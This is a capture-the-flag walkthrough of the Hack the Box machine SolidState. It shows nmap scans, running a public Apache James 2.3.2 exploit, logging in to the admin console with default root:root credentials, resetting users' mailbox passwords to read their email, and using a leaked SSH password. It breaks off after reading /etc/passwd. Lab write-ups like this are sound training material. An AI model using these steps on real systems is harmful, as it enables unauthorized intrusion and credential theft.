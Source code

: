 # Hack the Box - SolidState

```CSS
Machine IP: 10.10.10.51 - Linux
Difficulty: Medium
Category: OSCP Preparation
Vulnerabilities:
  - 
```

# Reconnaissance
  - Scan for open TCP ports on target machine.
  - Perform service and version detection of open ports.

## Port Scan
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.51 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.51
Host is up (0.18s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/7%OT=22%CT=1%CU=37112%PV=Y%DS=2%DC=I%G=Y%TM=6457A8C8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.67 seconds
```

## Service and Version Detection
```CSS
▶ nmap -sC -sV -p 22,25,80,110,119,4555 10.10.10.51 -oN services.nmap

Nmap scan report for 10.10.10.51
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.24 [10.10.14.24])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.93%I=7%D=5/7%Time=6457C059%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\nPle
SF:ase\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPasswor
SF:d:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 270.27 seconds
```

![image](https://user-images.githubusercontent.com/83878909/236687327-996643f3-8f36-450d-8d69-aefc5ca035ff.png)

---

# Enumeration
## Port 22 - SSH
  - The OpenSSH version that is running is not associated with any critical vulnerabilities, so it’s unlikely to gain initial access through this port, unless some valid credentials are found.

---

## Port 25 - SMTP
  - Service and Version: `James smtpd 2.3.2`
```CSS
▶ searchsploit james 2.3.2
```
![image](https://user-images.githubusercontent.com/83878909/236688076-9a3abaef-62ed-443e-96ad-1e902cd6a14b.png)

---

## Port 80 - HTTP
![image](https://user-images.githubusercontent.com/83878909/236688134-0d9eac62-a0d4-4172-b2e6-cade79213572.png)

### Content Discovery
  - Brute-force directories.
```CSS
▶ gobuster dir --url http://10.10.10.51 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/236745375-9142a91b-f442-4716-a2d2-a6a2db5766df.png)

---

# Exploit

## Initial Foothold
  - Apache James Server 2.3.2 - Remote Command Execution using default credentials.
  - Execute the exploit.
  - Connect to the target using netcat.
  - Login using the credentials: `root:root`.

### Download Exploit
```CSS
▶ searchsploit -m linux/remote/35513.py
```

### Run Exploit
```CSS
▶ python2 35513.py 10.10.10.51
```
![image](https://user-images.githubusercontent.com/83878909/236746610-285d13e2-4f47-4622-a773-d2e1a743ac2f.png)

### Connect to Target
```CSS
▶ nc 10.10.10.51 4555
```
![image](https://user-images.githubusercontent.com/83878909/236746370-6adb3b95-83e9-4ab4-b182-1f9eae2bd06f.png)

  - List all mail accounts using the command `listusers`.
![image](https://user-images.githubusercontent.com/83878909/236747526-8b0e75ab-02b4-4a01-9f49-e2ab4130bebd.png)

  - Change the password of the `mailadmin` user account using the command `setpassword`.
![image](https://user-images.githubusercontent.com/83878909/236747790-6eae3333-52cf-44a6-afa3-237bab43889f.png)

### Access User E-mail Account
  - Use `telnet` to access the email account of user `mailadmin`.
```
▶ telnet 10.10.10.51 110
```
![image](https://user-images.githubusercontent.com/83878909/236748853-bb598a85-1114-41b9-b645-14389fc798d8.png)
  - No email were found.

### Inspect All User E-mail Accounts
  - Change the password of all user e-mail accounts.
  - Access all email accounts using telnet.
  - Check for interesting information by inspecting emails in all accounts.

#### Change Passwords
![image](https://user-images.githubusercontent.com/83878909/236750391-5ebf01b4-0eb4-4bbe-b757-cb9875eb12d4.png)

#### Check E-mails
```
RETR 1
```
  - User `john`.
![image](https://user-images.githubusercontent.com/83878909/236751189-78724c43-ea2d-4d66-bcb7-f46062a502e3.png)

  - User `mindy`.
```
RETR 2
```
![image](https://user-images.githubusercontent.com/83878909/236751675-ca0a8ff0-2899-4649-8d68-855893b0fbf5.png)
  - SSH Credentials: `mindy:P@55W0rd1!2@`

### SSH
```CSS
▶ ssh mindy@10.10.10.51
```
![image](https://user-images.githubusercontent.com/83878909/236756135-c2652272-d7e1-4eed-b8f3-3e40b2d98b21.png)

---

# Privilege Escalation
### Restricted Bash Shell
```CSS
mindy@solidstate:~$ cat /etc/passwd
```
![image](https://user-images.githubusercontent.com/83878909/236760143-8d145c84-ff6d-4423-a934-ea6297aefc00.png)
